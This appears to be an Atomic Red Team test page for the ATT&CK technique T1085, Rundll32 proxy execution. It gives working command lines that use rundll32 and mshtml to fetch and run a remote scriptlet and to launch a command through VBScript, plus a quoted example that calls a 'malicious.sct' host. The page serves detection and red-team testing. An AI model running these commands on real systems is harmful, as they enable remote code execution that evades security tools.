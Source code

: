 # T1085 - Rundll32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1085)
<blockquote>The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject](#atomic-test-1---rundll32-execute-javascript-remote-payload-with-getobject)

- [Atomic Test #2 - Rundll32 execute VBscript command](#atomic-test-2---rundll32-execute-vbscript-command)


<br/>

## Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject
Test execution of a remote script using rundll32.exe

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1085/T1085.sct|

#### Run it with `command_prompt`! 
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:#{file_url}").Exec();"
```



<br/>
<br/>

## Atomic Test #2 - Rundll32 execute VBscript command
Test execution of a command using rundll32.exe and VBscript in a similar manner to the JavaScript test.

Technique documented by Hexacorn- http://www.hexacorn.com/blog/2019/10/29/rundll32-with-a-vbscript-protocol/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Command for rundll32.exe to execute | string | calc.exe|

#### Run it with `command_prompt`! 
```
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0)
```



<br/>
